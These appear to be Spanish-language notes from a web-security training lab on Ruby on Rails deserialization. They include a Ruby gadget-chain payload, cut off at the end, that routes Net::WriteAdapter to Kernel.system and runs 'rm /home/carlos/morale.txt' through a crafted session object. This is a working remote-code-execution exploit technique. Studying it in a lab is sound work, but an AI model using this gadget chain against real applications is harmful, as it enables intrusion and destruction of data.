 ### LAB: Exploiting Ruby deserialization using a documented gadget chain

* Con este ataque se puede llevar a cabo RCE, modificando correctamente la serialización de la session de la APP inyectando un objeto serial malicioso que contenga el RCE, creando una gadget-chain especifica para el framework `ruby on rails` para este caso investigando la posible gadget en internet. 
* `Delete /home/carlos/morale.txt`

	Efectivamente tampoco me funcionó, así que con ello presente, tomaré esta última pagina que toma las version de Ruby 2.x - 3.x:

	- [https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html](https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html)

	Que habla sobre la deserialization RCE Universal en todas las versiones de Ruby de 2.x-3.x donde menciona que la forma de invocar varios métodos magicos para crear el gadget chain y lograr la ejecución remota de código es así:

	[**`ActiveModel::AttributeMethods::ClassMethods::CodeGenerator**](<https://github.com/rails/rails/blob/v6.1.0.rc1/activemodel/lib/active_model/attribute_methods.rb#L369>) to achieve code execution.`

	Después de echarle una ojeada al blog de eje man, el codigo resultante para poder ejecutar el RCE es haciendo la llamada el KernelSystem(`Commands`) module propio de Ruby:

![[Pasted image 20250219094354.png]]

Así tal cual es como lo dejamos.

## Payload final: 

```ruby
require 'net/http'  # Cargar la librería de red estándar
require 'base64'

# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
```